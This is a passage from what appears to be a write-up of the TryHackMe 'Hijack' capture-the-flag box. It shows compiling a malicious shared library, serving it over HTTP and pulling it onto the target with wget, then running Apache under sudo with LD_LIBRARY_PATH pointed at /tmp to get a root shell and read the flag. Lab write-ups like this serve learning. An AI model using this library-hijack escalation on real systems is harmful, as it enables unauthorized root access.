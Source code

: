 ```bash
gcc -fPIC -shared -o /tmp/libcrypt.so.1 /tmp/exploit.c
```

#### 3. Hosting and Transferring the Payload
To transfer the compiled shared object to the target machine, I started a simple HTTP server on my local machine:

```bash
python3 -m http.server 80
```
Then, on the target machine, I downloaded the file using `wget`:

```bash
wget http://<my-local-ip>/exploit.c -O /tmp/exploit.c
```
#### 4. Exploiting Apache2 with LD_LIBRARY_PATH
Finally, I ran Apache with the environment pointing to my malicious library:

```bash
sudo LD_LIBRARY_PATH=/tmp apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
As expected, Apache loaded `libcrypt.so.1` from `/tmp`, executed `_init()`, and granted me a root shell.

```bash
root@Hijack:/root# cat root.txt
HIJACK
THM{b91e---------------}
```
Thanks for taking the time to read my writeup on the **TryHackMe Hijack box**. I hope it was helpful.

---


